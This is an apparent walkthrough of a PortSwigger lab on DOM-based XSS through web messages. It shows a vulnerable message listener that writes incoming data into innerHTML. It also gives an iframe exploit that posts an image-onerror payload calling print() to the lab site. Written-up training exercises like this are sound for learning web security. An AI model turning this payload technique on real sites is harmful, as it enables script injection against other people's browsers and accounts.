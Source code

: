 
# DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.

---------------------------------------------

Reference: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

---------------------------------------------

Generated link: https://0acb00d70448250981b389ca008b00e6.web-security-academy.net/

Vulnerable code:



![img](images/DOM%20XSS%20using%20web%20messages/1.png)

```
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```



![img](images/DOM%20XSS%20using%20web%20messages/2.png)

Our payload will create a HTML element, an image which on load will call “print()”:

```
<iframe src="https://0acb00d70448250981b389ca008b00e6.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=print() />','*')" style="width:100%;height:100%">

View exploit:



![img](images/DOM%20XSS%20using%20web%20messages/3.png)